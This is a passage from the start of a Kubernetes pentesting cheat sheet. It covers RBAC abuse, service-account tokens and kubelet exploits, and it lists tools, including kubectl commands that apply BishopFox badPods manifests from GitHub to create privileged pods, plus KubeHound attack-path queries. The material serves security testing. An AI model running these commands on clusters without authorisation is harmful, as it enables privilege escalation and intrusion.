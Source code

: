 # Kubernetes

> Kubernetes, often abbreviated as K8s, is an open-source container orchestration platform designed to automate the deployment, scaling, and management of containerized applications. It was originally designed by Google, and is now maintained by the Cloud Native Computing Foundation.

## Summary

- [Tools](#tools)
- [Container Environment](#container-environment)
- [Information Gathering](#information-gathering)
- [RBAC Configuration](#rbac-configuration)
  - [Listing Secrets](#listing-secrets)
  - [Access Any Resource or Verb](#access-any-resource-or-verb)
  - [Pod Creation](#pod-creation)
  - [Privilege to Use Pods/Exec](#privilege-to-use-pods-exec)
  - [Privilege to Get/Patch Rolebindings](#privilege-to-get-patch-rolebindings)
  - [Impersonating a Privileged Account](#impersonating-a-privileged-account)
- [Privileged Service Account Token](#privileged-service-account-token)
- [Kubernetes Endpoints](#kubernetes-endpoints)
- [Exploits](#exploits)
    - [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
    - [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.
    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```

* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - Executes commands in a container on a kubelet endpoint that allows anonymous authentication
* [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes Attack Graph
    ```ps1
    # Critical paths enumeration
    kh.containers().criticalPaths().count()
    kh.containers().dedup().by("name").criticalPaths().count()
    kh.endpoints(EndpointExposure.ClusterIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.NodeIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.External).criticalPaths().count()
    kh.services().criticalPaths().count()
